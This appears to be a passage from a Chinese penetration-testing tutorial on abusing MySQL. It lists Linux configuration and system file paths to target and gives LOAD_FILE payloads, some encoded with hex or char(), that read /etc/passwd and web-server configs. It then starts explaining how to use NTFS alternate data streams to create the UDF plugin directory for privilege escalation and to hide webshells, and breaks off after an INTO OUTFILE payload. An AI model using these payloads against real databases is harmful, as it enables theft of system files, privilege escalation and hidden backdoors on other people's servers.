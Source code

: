 LUNIX/UNIX 下:

```
1. /usr/local/app/apache2/conf/httpd.conf //apache2缺省配置文件  
2. /usr/local/apache2/conf/httpd.conf  
3. /usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置  
4. /usr/local/app/php5/lib/php.ini //PHP相关设置 
5. /etc/sysconfig/iptables //从中得到防火墙规则策略  
6. /etc/httpd/conf/httpd.conf // apache配置文件  
7. /etc/rsyncd.conf //同步程序配置文件  
8. /etc/my.cnf //mysql的配置文件  
9. /etc/redhat-release //系统版本  
10. /etc/issue  
11. /etc/issue.net  
12. /usr/local/app/php5/lib/php.ini //PHP相关设置 
13. /usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置  
14. /etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf 查看linux APACHE虚拟主机配置文件  
15. /usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看  
16. /usr/local/resin-pro-3.0.22/conf/resin.conf 同上  
17. /usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看  
18. /etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf 查看linux APACHE虚拟主机配置文件  
19. /usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看  
20. /usr/local/resin-pro-3.0.22/conf/resin.conf 同上  
21. /usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看  
22. /etc/sysconfig/iptables 查看防火墙策略 
23. load_file(char(47)) 可以列出FreeBSD,Sunos系统根目录 
24. replace(load_file(0×2F6574632F706173737764),0×3c,0×20) 
25. replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32)) 
```

**(2)直接读取配置文件**

```sql
1. SELECT LOAD_FILE('/etc/passwd' ) 
2. SELECT LOAD_FILE('/etc/issues' ) 
3. SELECT LOAD_FILE('/etc/etc/rc.local' ) 
4. SELECT LOAD_FILE('/usr/local/apache/conf/httpd.conf' ) 
5. SELECT LOAD_FILE('/etc/nginx/nginx.conf' ) 
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fywyqkegboj20hv04t74u.jpg)

(3)Linux下通过load_file函数读出来的数据库有可能是hex编码，要正常查看需要使用NotePad将将以上代码全部选中，然后选择插件“Converter”-“HEX-ASCII”进行转换。

### **2. Windows下MySQL提权时无法创建目录解决办法及数据流隐藏Webshell**

NTFS中的ADS(交换数据流)可以建立目录，隐藏webshell等等。

**(1) Mysql创建目录**

当MySQL版本较高时，自定义函数的dll需要放在mysql目录下的lib\plugin\。一般普通的脚本是没有在这个文件夹下创建文件夹的权限的。这里可以用到ads来突破：

```sql
select 'xxx' into outfile 'D:\\mysql\\lib::$INDEX_ALLOCATION'; 
```
